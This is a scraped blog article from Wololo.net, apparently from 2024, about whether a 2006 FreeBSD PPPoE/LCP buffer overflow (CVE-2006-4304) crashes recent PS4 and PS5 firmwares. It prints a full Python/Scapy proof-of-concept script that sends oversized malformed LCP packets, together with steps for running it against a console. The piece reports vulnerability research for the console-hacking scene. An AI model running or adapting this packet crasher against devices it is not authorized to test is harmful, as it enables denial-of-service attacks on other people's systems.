






<!--yml
category: 未分类
date: 2024-05-27 14:31:00
-->

# Is an 18-year old vulnerability the key to the next PS5/PS4 Jailbreak? - Wololo.net

> 来源：[https://wololo.net/2024/02/01/is-an-18-year-old-vulnerability-the-key-to-the-next-ps5-ps4-jailbreak/](https://wololo.net/2024/02/01/is-an-18-year-old-vulnerability-the-key-to-the-next-ps5-ps4-jailbreak/)



What initially looked like a troll might turn out to be an actual PS4/PS5 vulnerability. While people shouldn’t get their hopes up just right now as this might fizzle, it’s more interesting than it initially looked on the surface.

Discussions about an 18 year old CVE have been making the rounds of PS4/PS5 hacking discords, forums, and Twitter over the past few days. Some people have been claiming that a Network bug disclosed in 2006 could  be leveraged to Jailbreak recent PS4 and PS5 firmwares, and that this might even be the vulnerability (or one of the vulnerabilities in a chain) used by [TheFloW](https://wololo.net/tag/TheFloW) in [one of his most recent PlayStation bug bounties](https://wololo.net/2023/09/23/spoiler-alert-dont-update-theflow-sets-the-ps4-ps5-scene-on-fire-once-again/).

Early tests seem to **indicate that a crash is indeed present in PS4 up to 11.00 included, and PS5 8.20 included**. (Which would put the patch for this issue at [firmwares PS5 8.40 and PS4 11.02](https://wololo.net/2023/12/06/ps5-firmware-8-40-and-ps4-11-02-are-out-and-theres-something-interesting-in-there-dont-update/))

I’ll be the first to admit I initially dismissed the original message as a troll, but **it seems the claim has legs**: a PoC (proof of concept) file has been circulating, and multiple people confirm it crashes their PS4 and PS5, up to the firmwares mentioned above. Now, **a crash in itself is certainly not a vulnerability (let alone an exploitable one)**, but this means the claim is now leaving the “troll” territory and becomes worth looking into. And there’s more…

## CVE From 2006 and PS4/PS5 crash PoC

Before people become overly excited, I’d like to say that **this should still be considered as a rumor, or, at the very least, something that could fizzle, until more skilled devs actually dig into the issue**. However, here’s what happened so far:

*   An old CVE From 2006 ([CVE-2006-4304](https://www.cvedetails.com/cve/CVE-2006-4304/)) was [initially reported](https://wololo.net/2024/01/26/ps5-update-8-60-is-here-and-guess-what-dont-update/comment-page-1/#comment-6543161) by some anonymous user to be a “PS4/PS5 KEX” a few days ago. Multiple people, including myself, initially dismissed the claim: “There’s no way a 18-year old FreeBSD 4 bug is present on the PS4 or the PS5, which are based on FreeBSD 9 or above”.



*   However, several folks have tested the [poc that’s been circulating](https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37) (Please note that @Colek who provided this PoC on their github is not the person who initially made the claims) and have confirmed that it crashes their PS4/PS5 consoles, up to some specific firmwares (apparently up to PS4 11.00 and PS5 8.20 included).




Screenshots courtesy of hhk2003

**What the CVE is about**:

> *Buffer overflow in the sppp driver in FreeBSD 4.11 through 6.1, NetBSD 2.0 through 4.0 beta before 20060823, and OpenBSD 3.8 and 3.9 before 20060902 allows remote attackers to cause a denial of service (panic), obtain sensitive information, and possibly execute arbitrary code via crafted Link Control Protocol (LCP) packets with an option length that exceeds the overall length, which triggers the overflow in (1) pppoe and (2) ippp.*

This appears to be a bug in the Network stack of FreeBSD/NetBSD. Setting aside for a minute how crazy it would be that an 18 year old vulnerability is still present in modern consoles, at the very least this is an area of the code that we know TheFloW has been investigating a lot in the past (the only known PS5 Kernel exploit was from TheFloW and is related to the Network stack as well).

**The poc:**

```
from scapy.all import PPPoED, Ether, sniff, sendp, srp1, hexdump

source = b"\xXX\xXX\xXX\xXX\xXX\xXX" # MAC address of your adapter on PC
destination = b"\xXX\xXX\xXX\xXX\xXX\xXX" # MAC address of LAN on your PS4
interface = "Realtek PCIe 2.5GbE Family Controller #2" # get via "ipconfig /all" or eth0 or similiar on Linux

packet = sniff(iface=interface, filter="pppoed", count=1)
tag_value = packet[PPPoED][0].tag_list[1].tag_value
payload = destination + source + b"\x88\x63\x11\x07\x00\x00\x00\x0c\x01\x03\x00\x08" + tag_value
sendp(payload, iface=interface)

packet = sniff(iface=interface, filter="pppoed", count=1)
payload = destination + source + b"\x88\x63\x11\x65\x00\x01\x00\x0c\x01\x03\x00\x08" + tag_value
sendp(payload, iface=interface)

packet = sniff(iface=interface, filter="pppoes", count=1)
payload = destination + source + b"\x88\x64\x11\x00\x00\x01\x00\x09\xc0\x21\x01\x01\x00\x07\xab\xff"
packet = srp1(Ether(payload), iface=interface)
print(hexdump(packet))

payload = destination + source + b"\x88\x64\x11\x00\x00\x01\x00\x09\xc0\x21\x01\x01\x00\x07\xab\xff" + b"\xff" * 256 # this number might be different, just a guess
for i in range(20):
sendp(payload, iface=interface)
```

## Verdict: Is there a new vulnerability on the PS4/PS5?

A few thoughts come to mind:

*   In my opinion, if a bug from a CVE has been fixed on some system, it should generally not crash that system after the patch. I understand that in some rare scenarios, a crash is the only way out, but in my experience, most bug fixes intend to handle an error case gracefully. **A crash is not an exploit**, but it is very interesting to see that this code actually crashes the PS4 and PS5
    *   A likely explanation, rather than an old bug surfacing, is a new one (or similar one) that happens to be triggered by taking a similar path in the code base.
    *   It is also possible that some bits and pieces of the PS4/PS5 Network stack are not based on FreeBSD, but some other PS4/PS5 specific code that might still have the issue due to not be part of FreeBSD patches.
*   **It is particularly interesting to me that some more recent firmwares do not crash**. This **implies that Sony have fixed some issue, or modified some code in that area, in recent firmwares** (which was actually [strongly hinted at](https://wololo.net/2023/12/06/ps5-firmware-8-40-and-ps4-11-02-are-out-and-theres-something-interesting-in-there-dont-update/) when PS4 11.02 and PS5 8.40 were released). This is additional confirmation that this crash could be related to a recent vulnerability that was surfaced to Sony’s engineers (e.g. one of TheFloW’s bugs is not out of the question)
*   Some people have confirmed that the buggy code does, or did, exist, at some point, in the PS4’s codebase. SlidyBat over at the PS5 R&D discord in particular says that there is indeed some function in the PS4 that seems to use the old buggy code:







## Download and test the PoC

It is of course **too early to tell if this could lead to anything on the PS4 and PS5**, but for sure this looks **way more interesting than I initially thought** it did, a few days ago. We’re at the very early stages of this, and although this won’t be useful to anyone without the right skills to dig further, it probably doesn’t hurt for people to try and run the PoC on their PS4 and PS5.

Feel free to give it a try and report in the comments whether this crashed your console (and which firmware you’re on).

Please understand that in its current stage, this will only crash your console, and it’s not particularly obvious to set up: you’ll need some basic scripting skills. If you can’t follow the instructions on how to edit the script and run it, I’d strongly suggest you don’t sweat it.

1.  Get the Poc here: [https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37](https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37)
    *   Requires Python 3 and Scapy.
2.  Connect your PS4/PS5 directly to PC via LAN cable.
3.  Set up your PS4/PS5 for manual ethernet connection via PPPoE – insert any username/password.
4.  Update the “source”, “destination”, and “interface” details in the script, according to your home PC and target console. <– **If you don’t know how to do that and can’t figure it out, stop right there, this thing isn’t for you and you will not be helpful**
5.  Use “Test Internet Connection” on console.
6.  Launch script.

If it worked, it will crash your console.

## Reference

*   Original claim: https://wololo.net/2024/01/26/ps5-update-8-60-is-here-and-guess-what-dont-update/comment-page-1/#comment-6543161
*   PoC for PS4/PS5: https://gist.github.com/RobbedColek/8b0bc9655adc6ad9564ad71453188e37
*   CVE: https://www.cvedetails.com/cve/CVE-2006-4304/
*   OpenBSD patch to fix the 2006 vulnerability: https://ftp.openbsd.org/pub/OpenBSD/patches/3.8/common/014_sppp.patch

*As always I’ve tried to be accurate and precise in this article. If you notice something is missing or wrong, please let me know in the comments. Thanks*